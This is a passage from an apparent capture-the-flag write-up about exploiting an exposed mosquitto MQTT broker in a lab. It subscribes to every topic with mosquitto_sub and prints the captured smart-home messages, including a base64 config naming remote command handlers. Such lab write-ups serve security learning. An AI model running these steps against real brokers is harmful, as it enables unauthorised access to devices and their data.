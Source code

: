   ```
  |     $SYS/broker/load/messages/sent/15min: 27.21
  |     $SYS/broker/load/messages/received/5min: 59.72
  |     $SYS/broker/load/bytes/sent/5min: 238.94
  |_    $SYS/broker/load/bytes/received/5min: 2845.96
  ```
  
- Now, I started exploring `mosquitto` and found this [tool](https://github.com/kh4sh3i/MQTT-Pentesting) that we will use for exploitation.

---

## 🌐 Exploitation 

- First, we are going to subscribe to all IoT topics.

  ```
  mosquitto_sub -t '#' -h 10.10.11.207 -v
  
  storage/thermostat {"id":10762101610023627149,"temperature":24.102463}
  yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
  patio/lights {"id":2951336267348203198,"color":"ORANGE","status":"OFF"}
  frontdeck/camera {"id":6783776374738167164,"yaxis":-95.966225,"xaxis":-98.9164,"zoom":0.2082497,"movement":false}
  kitchen/toaster {"id":1356733472987702499,"in_use":true,"temperature":146.51863,"toast_time":349}
  livingroom/speaker {"id":14010203911659004628,"gain":75}
  storage/thermostat {"id":15947993585055285088,"temperature":24.496363}
  livingroom/speaker {"id":885354157039362202,"gain":44}
  patio/lights {"id":334276671834765765,"color":"PURPLE","status":"OFF"}
  kitchen/toaster {"id":4657780720477698668,"in_use":false,"temperature":141.28236,"toast_time":217}
  storage/thermostat {"id":6952037601393545817,"temperature":23.74218}
  frontdeck/camera {"id":14339557377162674645,"yaxis":-51.74562,"xaxis":38.341354,"zoom":1.3615317,"movement":false}
  livingroom/speaker {"id":11779071931945522459,"gain":48}
  patio/lights {"id":9818751930686087080,"color":"GREEN","status":"OFF"}
  storage/thermostat {"id":16884961924665331713,"temperature":23.49692}
  kitchen/toaster {"id":3312959592236425634,"in_use":false,"temperature":151.1816,"toast_time":252}
  livingroom/speaker {"id":1886436783539312463,"gain":72}
  storage/thermostat {"id":15205688319286668668,"temperature":24.277239}
  patio/lights {"id":3316543141431468804,"color":"ORANGE","status":"ON"}
  frontdeck/camera {"id":12049042104346502166,"yaxis":-35.886383,"xaxis":106.18591,"zoom":3.243253,"movement":false}
  kitchen/toaster {"id":17732017368443943284,"in_use":false,"temperature":149.4004,"toast_time":146}
  livingroom/speaker {"id":17709858190912822109,"gain":45}
  storage/thermostat {"id":2130987102212397998,"temperature":23.555523}
  patio/lights {"id":9934299393751544745,"color":"WHITE","status":"ON"}
  storage/thermostat {"id":11641418668587660941,"temperature":23.854708}
  livingroom/speaker {"id":10319268659221036012,"gain":60}
  yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==
  kitchen/toaster {"id":7122176429576762502,"in_use":false,"temperature":159.00429,"toast_time":313}
  storage/thermostat {"id":3492924801559384411,"temperature":23.590889}
  patio/lights {"id":10894769894638089400,"color":"PURPLE","status":"OFF"}
  frontdeck/camera {"id":8259376364976281413,"yaxis":22.614594,"xaxis":-65.95687,"zoom":0.45953158,"movement":false}
  livingroom/speaker {"id":12463733112131929432,"gain":43}
  storage/thermostat {"id":11888077407684249205,"temperature":23.188974}
  kitchen/toaster {"id":2431047821465503922,"in_use":true,"temperature":145.16739,"toast_time":255}
  patio/lights {"id":2980296776301318354,"color":"GREEN","status":"ON"}
  ```